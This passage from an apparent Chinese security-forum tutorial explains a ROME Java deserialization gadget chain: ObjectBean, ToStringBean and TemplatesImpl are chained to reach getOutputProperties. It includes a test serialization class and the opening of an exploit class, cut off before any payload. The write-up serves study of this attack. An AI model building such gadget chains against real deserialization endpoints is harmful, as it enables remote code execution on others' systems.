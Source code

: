 将 HashMap 的 key 设置为 ObjectBean，put 了一个参数 x 进去，我们可以看到在 EqualsBean 中的 beanHashCode

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c89dc638ecf620b77dccb4d23ffebbeb1dac7484.png)

如果这里我们将我们的值改为 ToStringBean 的对象，我们就可以直接将 `ObjectBean.toString()` 跳过

```java
public class dome {
    public static void main(String[] args) throws Exception{
        ToStringBean toStringBean = new ToStringBean(String.class, "x");
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        Map hashMap = new HashMap();
        hashMap.put(objectBean, "x");

        // 执行序列化与反序列化，并且返回序列化数据
        ByteArrayOutputStream baout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(baout);
        oout.writeObject(hashMap);
        System.out.println(new String(Base64.encode(baout.toByteArray())).length());
        ByteArrayInputStream bain = new ByteArrayInputStream(baout.toByteArray());
        ObjectInputStream oin = new ObjectInputStream(bain);
        oin.readObject();
    }
```

重新调试，\_obj 已经被设置为 ToStringBean

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-ac5bf3b446c0248ec46bc4052b7203d2fd71b264.png)

可以看到 x 参数

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-48f1d336b0887041b0a5ca347e9dac31ecfa45f7.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-17922a56118aa6a6b60dfcb20835fd59a535fe76.png)

这里调用 getPropertyDescriptors ，获取的是 String 类 的 getter 与 setter，这一部分与 Javabean 密切相关，我们在前面的介绍中有提到，所以如果这里我们将 String 换成 TemplatesImpl，那么我们就可以顺利调用到 getOutputProperties 了

结合 Payload 缩小术 构造如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-e128899794d3830842f2ceabe7a17e718c1f427f.png)

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

import com.sun.syndication.feed.impl.ToStringBean;
import com.test.asm.Resolver;
import javassist.*;
public class ROMEtest2 {
    public static void setFieldValue(Object obj, String fieldname, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception {

        ClassPool pool = ClassPool.getDefault();
```
